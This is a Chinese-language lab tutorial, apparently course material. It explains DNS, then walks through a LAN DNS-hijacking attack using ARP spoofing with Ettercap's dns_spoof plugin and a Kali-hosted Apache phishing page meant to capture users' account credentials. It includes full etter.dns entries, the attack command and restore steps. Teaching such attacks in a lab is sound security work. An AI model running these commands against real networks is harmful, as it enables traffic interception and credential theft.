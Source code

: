 # ARP-Ettercap dns劫持

## 1.什么是DNS

#### 1.概念

DNS是Domain Name System的缩写, 我们称之域名系统。首先它是远程调用服务，本地默认占用53端口，它本身的实质上一个域名和ip的数据库服务器，他要完成的任务是帮我们把输入的域名转换成ip地址，之后通过ip寻址连接目标服务器。

#### 2.工作过程

当访问一个网站时系统将从DNS缓存中读取该域名所对应的IP地址，当查找不到时就会到系统中查找hosts文件，如果还没有那么才会向DNS服务器请求一个DNS查询，DNS服务器将返回该域名所对应的IP，在你的系统收到解析地址以后将使用该IP地址进行访问，同时将解析缓存到本地的DNS缓存中。
![DNS解析过程](.\DNS解析过程.png)

## 2.什么是DNS劫持

#### 1.概念

 DNS劫持又称域名劫持，是指在劫持的网络范围内拦截域名解析的请求，分析请求的域名，把审查范围以外的请求放行，否则返回假的IP地址或者什么都不做使请求失去响应，其效果就是**对特定的网络不能访问或访问的是假网址。**

#### 2.ettercap劫持的原理

局域网劫持, 攻击者通过**伪装成网关**, 劫持受害者的网络请求, 将网络请求拦截到指定的服务器

#### 3.DNS常用命令讲解

1.查看DNS缓存表

```
ipconfig /displaydns
```

2.获取DNS地址：

```
ping maishibing.com
```

2.刷新DNS缓存

```
ipconfig /flushdns
```



## 3.ARP-DNS欺骗攻击步骤

#### 1.kali开启apache服务

**目的**：使攻击机的ip地址可以被别的主机通过其IP地址访问，，以达到靶机可以访问服务器搭建在攻击机上的钓鱼网站的目的，通过诱骗用户输入账号和密码，来窃取用户隐私信息。

```
service apache2 start
```

#### 2.浏览器访问Apache的首页

```
http://192.168.110.12
```

#### 3.编辑ettercap配置文件

##### 1.进入配置文件位置

```
cd /etc/ettercap
```

##### 2.复制原有的配置文件（环境恢复比较方便）

```
cp etter.dns etter.dns1
```

#### 3.设置dns劫持配置文件

```
vi /etc/ettercap/etter.dns
添加以下内容
*   A   192.168.110.12
*   PTR 192.168.110.12
wq保存
参数
*:代表所有的网站 也可设置某个网站 www.mashibing.com
A:代表钓鱼的ip地址
PTR ：常被用于反向地址解析
```

![dns配置文件](.\dns配置文件.png)

#### 4.ettercap劫持命令讲解

```
 ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /被攻击者ip// /被攻击者网关// 
 -i：网卡
 -T：文本模式
 -q：安静模式
 -M：执行mitm攻击
 -P：plugin 开始该插件
```

#### 5.靶机访问以下网站确认环境正常

```
http://www.mashibing.com/
http://m.ctrip.com
http://www.jd.com/
```

```
ping www.mashibing.com
ping m.ctrip.com
ping www.jd.com
```

#### 6.执行劫持命令

```
ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /192.168.40.102// /192.168.40.1// >b.txt
```

#### 7.分析日志

```
tail -f b.txt
或者
tail -f b.txt | grep "dns_spoof"
```

#### 8.靶机访问以下网站查看攻击效果

```
http://www.mashibing.com/
http://m.ctrip.com
http://www.jd.com/
```

```
ping www.mashibing.com
```

#### 9.停止劫持

```
Ctrl+C
```

#### 10.恢复dns劫持，刷新dns缓存即可。

```
ipconfig /flushdns
```

#### 11.靶机访问以下网站查看环境是否恢复正常

```
http://www.mashibing.com/
http://m.ctrip.com
http://www.jd.com/
```

```
ping www.mashibing.com
```

#### 12.恢复kali环境

##### 1.进入配置文件位置

```
cd /etc/ettercap
```

##### 2.复制dns文件到新文件

```
cp etter.dns etter.dns2
```

##### 3.还原dns配置文件

```
cp etter.dns1 etter.dns
```

## 4.课堂小结

参考：ARP-Ettercap dns劫持.xmind

